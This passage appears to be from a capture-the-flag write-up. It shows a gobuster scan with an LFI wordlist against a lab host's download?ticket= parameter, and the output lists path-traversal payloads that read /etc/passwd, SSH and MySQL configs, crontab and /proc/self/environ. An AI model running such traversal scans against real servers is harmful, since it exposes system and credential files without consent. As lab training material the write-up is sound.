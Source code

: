 
I discovered lfi so testing a scan with gobuster and jhaddix lfi list

```sh
┌──(fixit㉿asusx555b)-[~]
└─$ gobuster dir -k -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -t 20 -u http://titanic.htb/download?ticket=                           
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://titanic.htb/download?ticket=
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd (Status: 200) [Size: 1951]
/%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%    25%5c..%25%5c..%255cboot.ini (Status: 400) [Size: 303]
/%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%  25%5c..%25%5c..%00 (Status: 400) [Size: 303]
/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/shadow (Status: 500) [Size: 265]
/..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fshadow (Status: 500) [Size: 265]
/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd (Status: 200) [Size: 1951]
/..%2F..%2F..%2F%2F..%2F..%2Fetc/passwd (Status: 200) [Size: 1951]
/..%2F..%2F..%2F%2F..%2F..%2Fetc/shadow (Status: 500) [Size: 265]
/=3D “/..” . “%2f..   (Status: 400) [Size: 303]
/C:\Program Files\    (Status: 400) [Size: 303]
/c:\Program Files\Apache Group\Apache\logs\access.log (Status: 400) [Size: 303]
/c:\Program Files\Apache Group\Apache\logs\error.log (Status: 400) [Size: 303]
/dbase.php a          (Status: 400) [Size: 303]
/D:\Program Files\    (Status: 400) [Size: 303]
/../../../../../../../dev (Status: 500) [Size: 265]
/etc/apache2/apache2.conf (Status: 200) [Size: 7224]
/etc/apt/sources.list (Status: 200) [Size: 2377]
/etc/crontab          (Status: 200) [Size: 1136]
/etc/fstab            (Status: 200) [Size: 496]
/etc/group            (Status: 200) [Size: 818]
/etc/hosts            (Status: 200) [Size: 250]
/../../../../../../../../../../../../etc/hosts (Status: 200) [Size: 250]
/etc/hosts.deny       (Status: 200) [Size: 711]
/etc/hosts.allow      (Status: 200) [Size: 411]
/etc/issue            (Status: 200) [Size: 26]
/etc/init.d/apache2   (Status: 200) [Size: 8181]
/etc/netconfig        (Status: 200) [Size: 767]
/etc/mysql/my.cnf     (Status: 200) [Size: 839]
/etc/nsswitch.conf    (Status: 200) [Size: 510]
/./././././././././././etc/passwd (Status: 200) [Size: 1951]
/etc/passwd           (Status: 200) [Size: 1951]
/../../../../../../../../../../../../../../../../../../../../../../etc/passwd (Status: 200) [Size: 1951]
/../../../../../../../../../../../../../../../../../../../../../etc/passwd (Status: 200) [Size: 1951]
/../../../../../../../../../../etc/passwd (Status: 200) [Size: 1951]
/../../../../../../../../../../../../../../../../../../../../etc/passwd (Status: 200) [Size: 1951]
/../../../../../../../../../../../../../../../../../../../etc/passwd (Status: 200) [Size: 1951]
/../../../../../../../../../../../../../../../../../../etc/passwd (Status: 200) [Size: 1951]
/../../../../../../../../../../../../../../../../etc/passwd (Status: 200) [Size: 1951]
/../../../../../../../../../../../etc/passwd (Status: 200) [Size: 1951]
/../../../../../../../../../../../../../../../../../etc/passwd (Status: 200) [Size: 1951]
/../../../../../../../../../../../../../../../etc/passwd (Status: 200) [Size: 1951]
/../../../../../../../../../../../../../../etc/passwd (Status: 200) [Size: 1951]
/../../../../../../../../../../../../../etc/passwd (Status: 200) [Size: 1951]
/../../../../../../../../../../../../etc/passwd (Status: 200) [Size: 1951]
/../../../../../../../../../../etc/passwd (Status: 200) [Size: 1951]
/../../../../../../../../etc/passwd (Status: 200) [Size: 1951]
/../../../../../../../../../etc/passwd (Status: 200) [Size: 1951]
/../../../../../../../etc/passwd (Status: 200) [Size: 1951]
/../../../../../../etc/passwd (Status: 200) [Size: 1951]
/../../../../../etc/passwd (Status: 200) [Size: 1951]
/../../../etc/passwd  (Status: 200) [Size: 1951]
/../../../../etc/passwd (Status: 200) [Size: 1951]
/../../etc/passwd     (Status: 200) [Size: 1951]
/../etc/passwd        (Status: 200) [Size: 1951]
/etc/passwd           (Status: 200) [Size: 1951]
/../../../../../../etc/passwd&=%3C%3C%3C%3C (Status: 200) [Size: 1951]
/etc/resolv.conf      (Status: 200) [Size: 920]
/etc/rpc              (Status: 200) [Size: 887]
/./././././././././././etc/shadow (Status: 500) [Size: 265]
/../../../../../../../../../../etc/shadow (Status: 500) [Size: 265]
/etc/shadow           (Status: 500) [Size: 265]
/../../../../../../../../../../../../etc/shadow (Status: 500) [Size: 265]
/etc/ssh/sshd_config  (Status: 200) [Size: 3252]
/etc/sudoers          (Status: 500) [Size: 265]
/proc/cpuinfo         (Status: 200) [Size: 0]
/Program Files\Apache Group\Apache2\conf\httpd.conf (Status: 400) [Size: 303]
/Program Files\Apache Group\Apache\logs\error.log (Status: 400) [Size: 303]
/Program Files\Apache Group\Apache\conf\httpd.conf (Status: 400) [Size: 303]
/proc/loadavg         (Status: 200) [Size: 0]
/proc/interrupts      (Status: 200) [Size: 0]
/Program Files\Apache Group\Apache\logs\access.log (Status: 400) [Size: 303]
/proc/mounts          (Status: 200) [Size: 0]
/proc/meminfo         (Status: 200) [Size: 0]
/proc/net/tcp         (Status: 200) [Size: 0]
/proc/self/cmdline    (Status: 200) [Size: 0]
/proc/net/dev         (Status: 200) [Size: 0]
/proc/partitions      (Status: 200) [Size: 0]
/proc/net/arp         (Status: 200) [Size: 0]
/proc/net/route       (Status: 200) [Size: 0]
/proc/version         (Status: 200) [Size: 0]
/proc/self/status     (Status: 200) [Size: 0]
/proc/self/environ    (Status: 200) [Size: 0]
/Program Files\xampp\apache\conf\httpd.conf (Status: 400) [Size: 303]
/../../../../../../../usr/local/apache/logs/access_ log (Status: 400) [Size: 303]
/../../../../../../../usr/local/apache/logs/access. log (Status: 400) [Size: 303]
/usr/local/apache/logs/access_ log (Status: 400) [Size: 303]
/usr/local/apache/logs/access. log (Status: 400) [Size: 303]
/../../../../../../../usr/local/apache/logs/error.l og (Status: 400) [Size: 303]
/../../../../../../../usr/local/apache/logs/error_l og (Status: 400) [Size: 303]
/var/log              (Status: 500) [Size: 265]
/var/log/dmesg        (Status: 500) [Size: 265]
/var/log/auth.log     (Status: 500) [Size: 265]
/var/log/kern.log     (Status: 500) [Size: 265]
/var/log/syslog       (Status: 500) [Size: 265]
/var/log/wtmp         (Status: 200) [Size: 11520]
/var/run/utmp         (Status: 200) [Size: 3072]
/var/log/lastlog      (Status: 200) [Size: 292292]
/..2f..2f..2f..2f..2f..2f..2fusr2flocal2fapache2flogs2faccess_ log (Status: 400) [Size: 303]
/..2f..2f..2f..2f..2f..2f..2fusr2flocal2fapache2flogs2faccess. log (Status: 400) [Size: 303]
/..2f..2f..2f..2f..2f..2f..2fusr2flocal2fapache2flogs2ferror_l og (Status: 400) [Size: 303]
/..2f..2f..2f..2f..2f..2f..2fusr2flocal2fapache2flogs2ferror.l og (Status: 400) [Size: 303]
///////../../../etc/passwd (Status: 200) [Size: 1951]

===============================================================
Finished
===============================================================
```

/etc/apt/sources.list (Status: 200) [Size: 2377]
/etc/crontab          (Status: 200) [Size: 1136]
/etc/fstab            (Status: 200) [Size: 496]
/etc/group            (Status: 200) [Size: 818]
/etc/hosts            (Status: 200) [Size: 250]
/etc/hosts.deny       (Status: 200) [Size: 711]
/etc/hosts.allow      (Status: 200) [Size: 411]
/etc/issue            (Status: 200) [Size: 26]
/etc/init.d/apache2   (Status: 200) [Size: 8181]
/etc/netconfig        (Status: 200) [Size: 767]
/etc/mysql/my.cnf     (Status: 200) [Size: 839]
/etc/nsswitch.conf    (Status: 200) [Size: 510]
/etc/passwd           (Status: 200) [Size: 1951]
/etc/resolv.conf      (Status: 200) [Size: 920]
/etc/rpc              (Status: 200) [Size: 887]
/etc/ssh/sshd_config  (Status: 200) [Size: 3252]
/proc/cpuinfo         (Status: 200) [Size: 0]
/proc/loadavg         (Status: 200) [Size: 0]
/proc/interrupts      (Status: 200) [Size: 0]
/proc/mounts          (Status: 200) [Size: 0]
/proc/meminfo         (Status: 200) [Size: 0]
/proc/net/tcp         (Status: 200) [Size: 0]
/proc/self/cmdline    (Status: 200) [Size: 0]
/proc/net/dev         (Status: 200) [Size: 0]
/proc/partitions      (Status: 200) [Size: 0]
/proc/net/arp         (Status: 200) [Size: 0]
/proc/net/route       (Status: 200) [Size: 0]
/proc/version         (Status: 200) [Size: 0]
/proc/self/status     (Status: 200) [Size: 0]
/proc/self/environ    (Status: 200) [Size: 0]
/var/log/wtmp         (Status: 200) [Size: 11520]
/var/run/utmp         (Status: 200) [Size: 3072]
/var/log/lastlog      (Status: 200) [Size: 292292]

